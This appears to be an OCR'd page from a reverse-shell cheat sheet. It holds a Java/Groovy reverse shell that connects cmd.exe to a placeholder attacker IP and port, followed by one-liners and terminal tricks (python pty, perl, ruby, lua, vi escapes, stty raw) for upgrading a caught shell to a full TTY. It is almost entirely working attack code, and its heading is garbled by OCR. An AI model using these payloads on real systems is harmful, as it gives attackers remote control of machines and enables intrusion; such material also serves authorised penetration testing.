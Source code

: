 ═══════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════


╔JAWA For GROOVY═══════════════════════════════════════════════════════════════════════════════════════════════════════════════════
║ String host="[IP]";
int port=[PORT];
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

═══════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════════

# Spawn TTY

```bash
/bin/sh -i
```

(From an interpreter)

```powershell
python -c 'import pty; pty.spawn("/bin/sh")'
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

Access shortcuts, su, nano and autocomplete in a partially tty shell
/!\ OhMyZSH might break this trick, a simple `sh` is recommended

```powershell
# in host
ctrl+z
stty raw -echo
fg

# in reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

(From within vi)

```bash
:!bash
:set shell=/bin/bash:shell
```
